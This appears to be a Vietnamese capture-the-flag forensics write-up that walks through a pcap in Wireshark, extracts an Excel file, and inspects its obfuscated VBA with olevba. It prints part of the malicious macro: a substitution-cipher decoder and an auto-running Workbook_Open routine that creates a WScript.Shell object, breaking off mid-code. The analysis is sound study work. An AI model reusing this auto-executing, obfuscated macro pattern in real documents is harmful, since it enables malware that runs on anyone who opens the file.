 # _UNDER CONTROL_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/9e6bf7b3-c9ee-43d6-ac87-b5c487fac275)

Thử thách cho 1 file pcap, dùng wireshark phân tích

![image](https://github.com/user-attachments/assets/987707cc-9378-40a3-a062-dec58d12006e)

Có thể thấy 1 gói tin http GET request đối với file **/Danh%20s%C3%A1ch%20ph%C3%A2n%20thi.xls** liền export http file đó về

Khả năng rất cao là office dính vba nên cho lên máy ảo mới dám mở

![image](https://github.com/user-attachments/assets/873fb97d-65a1-41bf-94ea-b2fafa49c537)

Chắc chắn là dính vba rồi, đem qua kali dùng olevba để phân tích 

![image](https://github.com/user-attachments/assets/f8a90da0-7392-4500-84ed-ddfcc5ce4f80)

Nhìn cũng hoa hết mắt 😣 Nhưng thực chất đoạn mã trên bị làm rối bằng cách sử dụng hàm với những kí tự loằng ngoằng và khó hiểu, ngồi xem một lúc thì mình thấy được có 1 thứ gì đó khá giống với đường link nhưng khả năng đã bị mã hóa

![image](https://github.com/user-attachments/assets/36472ae1-7452-423d-a0ea-f0f98ce9595d)

Nét gạch chân dưới và format rất giống với 1 đường link https :v Giờ quay lại với vấn đề chính là đoạn mã vba kia mình sẽ dùng vscode để chỉnh lại các hàm cho dễ đọc

```vba
Function a(b)
c = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
d = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(b)
e = InStr(c, Mid(b, y, 1))
If e > 0 Then
f = Mid(d, e, 1)
g = g + f
Else
g = g + Mid(b, y, 1)
End If
Next
a = g
For h = 1 To Len(i)
i = h
Next
For j = 2 To Len(k)
k = 2
Next
For l = 3 To Len(m)
m = l
Next
For n = 4 To Len(o)
o = 2
Next
End Function
Sub Workbook_Open()
Dim p As Object
Dim q As String
Dim r As String
Dim s As String
Dim t As Integer
t = Chr(50) + Chr(48) + Chr(48)
Set p = CreateObject("WScript.Shell")
```